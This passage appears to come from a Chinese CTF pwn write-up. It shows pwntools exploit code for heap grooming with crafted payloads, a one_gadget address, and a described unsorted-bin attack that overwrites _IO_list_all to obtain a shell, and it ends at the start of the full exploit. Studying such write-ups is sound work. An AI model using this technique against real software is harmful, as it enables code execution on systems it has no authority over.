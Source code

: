 	add(8,'a','b\n')		#8
	add(8,'a','b\n')		#9
	delete(8)

	payload = '\x00'*0x20 + '\x99'
	add(8,'a',payload)		#10
	delete(10)

	# add(0x28,'a','b\n')

	# delete(9)
	
	add(0x60,'a','b\n')		#11
	add(8,'a','b\n')		#12

	delete(11)
	add(0x30,'a','b\n')		#13
	delete(12)
	payload = '\x00'*0x20 + p32(0)*7 + p32(0x11)
	add(0x48,payload,'b\n')		#14
	

	delete(9)
	delete(7)
	payload = '\x00'*0x2c + p32(0x31) + p32(0) + p32(heap_base+0x2f0)
	payload += '\x00'*0x24 + p32(0xe9)
	add(0x90,payload,'b\n')		#15

	delete(13)

	one_gadget = libc.address + 0x5f066
	payload = '\x00'*0x30
	payload += p32(0x80) + p32(0xc1) + p32(0xc1) + p32(0xc1)
	payload += p32(0) + p32(1) + p32(1)
	payload += p32(0)*7
	payload += p32(3) + p32(0) + p32(0xffffffff) + p32(0) + p32(heap_base+0x400)
	payload += p32(0xffffffff)*2 + p32(0) + p32(heap_base+0x500)
	payload += p32(0)*3 + p32(0xffffffff) + p32(0)*10
	payload += p32(heap_base+0x310)
	payload += p32(one_gadget)*5

	add(0xe0,payload,'b\n')		#16

	delete(15)
	delete(16)
### 2.4 Unsortedbin attack ###
最后使用Unsortedbin attack改写\_IO\_list\_all，然后释放一个非法的chunk，从而得到shell
## 3.完成exp ##
	
	from pwn import *
	from ctypes import *
	import os
	#import roputils as rop
	